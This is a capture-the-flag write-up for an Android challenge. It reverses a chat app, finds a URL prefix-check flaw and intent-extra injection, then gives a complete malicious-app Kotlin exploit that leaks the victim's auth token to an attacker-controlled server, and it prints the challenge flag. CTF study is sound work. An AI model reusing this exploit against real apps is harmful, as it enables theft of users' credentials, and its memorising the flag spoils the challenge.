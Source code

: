 # pwn | Blackmail

## Information
> Welcome to Super App Store, where anyone can publish their apps!

Yeah, what a bunch of baloney. My app passed the review process a month ago! And I still haven't heard from them. Maybe this *admin* guy only lets his friends publish here?

Well, that's no matter now. I've decided I'm blackmailing him. 

You're gonna help me with that. Here's the [storefront](https://superappstore-dc-b5d4cf625464c878.brics-ctf.ru/). He uses that stupid *DroidChat* app he made himself. I know he must be keeping some secrets there...

## Public
App build is distributed on the storefront.

## Deploy
Deploy `dev/app-backend` to a normal machine.

Deploy `dev/runner` (front) to a normal machine.

Deploy `dev/runner` (runner) to a KVM-capable machine.
- Install Android SDK, particularly system image that you wish to use (to `~/Android/sdk`). Note that `google_apis_playstore` does not have root access, so you'll want those ones.
- Point `DB_URI` to front machine. Multiple runners are not supported.

## Writeup
Reversing the Android app, we should pay attention to following:

1. The app has an `okhttp.Interceptor` which attaches the user token as a query parameter to HTTPS requests to the API host. The check it performs, however, is faulty:
```java
public final class d implements s {
    // ...
    public final a0 a(f fVar) {
        // ...
        if (j.N1(((r) wVar.f655b).f5334h, "https://droidchat-ab2f2aaa594034df.brics-ctf.ru", false)) {
            q f7 = ((r) wVar.f655b).f();
            String string = this.f2431a.f1797a.getString("token", null);
```
This is what Koltin turns `Strings.startsWith` into. Obviously, a slash is missing at the end, so a URL like `https://droidchat-...-ctf.ru@hacker.com` would pass the check.

2. DeepLinkActivity does not create a new Intent, instead modifying the received one. This allows us to sneak extras into ListActivity and ChatActvity.

3. ChatActivityArguments processes the Intent's extras with the following logic:
   - If int extra `dl.chat.uid` is present, try to open chat with this user ID.
   - If that failed, look at `args` bundle extra. If `ChatActivityArguments.pendingSticker` is present, send the sticker first. Then open the chat with given user.

4. When a 'sticker' button is pressed in ListActivity, ChatActivity is started with a `ChatActivityArguments.pendingSticker`. Looking at the UI, we can notice that the image is loaded before actually sending the message. And, in fact, no check is performed that `pendingSticker` is valid. This means that, if we could alter `pendingSticker`, we could make abritrary GET requests (note that HTTPS is required).

5. Looking at ListActivity, notice the unorthodox serialization of ChatActivityArguments into the Intent:
```java
Intent intent = new Intent(listActivity2, ChatActivity.class);
User user2 = mVar2.f4045a;
y1.g.B(user2, "user");
Bundle bundle2 = new Bundle();
Bundle bundle3 = new Bundle();
bundle3.putInt("_User__id", user2.f6293a);
bundle3.putString("_User__username", user2.f6294b);
bundle2.putBundle("_ChatActivityArguments__user", bundle3);
Bundle bundle4 = new Bundle();
bundle4.putString("_Sticker__id", sticker.f6289a);
bundle4.putString("_Sticker__url", sticker.f6290b);
bundle2.putBundle("_ChatActivityArguments__pendingSticker", bundle4);
intent.putExtra("args", bundle2);
listActivity2.startActivity(intent);
```
We can easily craft this data in our malicious app and deliver it via a deep link Intent.

Taking all of this into account, here is the MainActivity of our malicious app:

```kotlin
package ru.superappstore.newapp

import android.content.Intent
import android.net.Uri
import androidx.appcompat.app.AppCompatActivity
import android.os.Bundle

class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        startActivity(Intent().apply {
            data = Uri.parse("droidchat://chat/-1234")
            putExtra("args", Bundle().apply {
                putBundle("_ChatActivityArguments__user", Bundle().apply {
                    putInt("_User__id", 11)
                    putString("_User__username", "get pwned")
                })
                putBundle("_ChatActivityArguments__pendingSticker", Bundle().apply {
                    putString("_Sticker__id", "owo")
                    putString("_Sticker__url", "https://droidchat-ab2f2aaa594034df.brics-ctf.ru@<YOUR_SERVER_HERE!>/")
                })
            })
        })
    }
}

```

When DroidChat starts with this Intent, `dl.chat.uid` is set to `-1234`, a nonexistent ID. ChatActivity thus fails to load the linked chat. It then tries to process ChatActivityArguments, and leaks the user token while trying to prefetch the sticker image.

## Domains
- `droidchat-ab2f2aaa594034df.task.brics-ctf.ru` -- app backend

- `superappstore-dc-b5d4cf625464c878.task.brics-ctf.ru` -- exploit submitter

## Cloudflare
Backend --  *No*, Submitter -- *Yes*

## Flag
`brics+{st4t3_y0ur_1nt3n7_075a84e6069f}`

